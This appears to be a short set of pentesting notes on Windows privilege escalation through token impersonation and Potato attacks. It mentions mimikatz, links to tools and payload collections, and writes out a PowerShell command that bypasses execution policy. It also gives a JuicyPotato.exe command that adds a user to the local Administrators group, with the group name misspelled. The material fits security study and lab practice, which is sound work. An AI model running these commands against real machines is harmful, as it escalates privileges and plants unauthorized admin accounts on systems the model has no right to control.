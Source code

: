 # IMPERSONATION ATTACKS

## Token Impersonation
We see which tokens are avaliable to impersonate y get the access into the account of that person

![imagen](https://github.com/D1ie3z/Pentesting/assets/88562299/ced17c45-f8d3-4f6d-adbb-646cd741d18b)

We run mimikatz

## Impersonation overview

* whoami /priv

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---impersonation-privileges

## Potato Attacks
https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/
https://github.com/ohpe/juicy-potato

We need a vali CLSID and Port Number
https://github.com/ohpe/juicy-potato/blob/master/CLSID/GetCLSID.ps1
powershell -executionpolicy bypass -file GetCLSID.ps1 > clsid.txt

DEFAULT
JuicyPotato.exe -t * -p C:\Windows\System32\cmd.exe -a "/c net localgroup Admnistrators Test /add" -l 1234
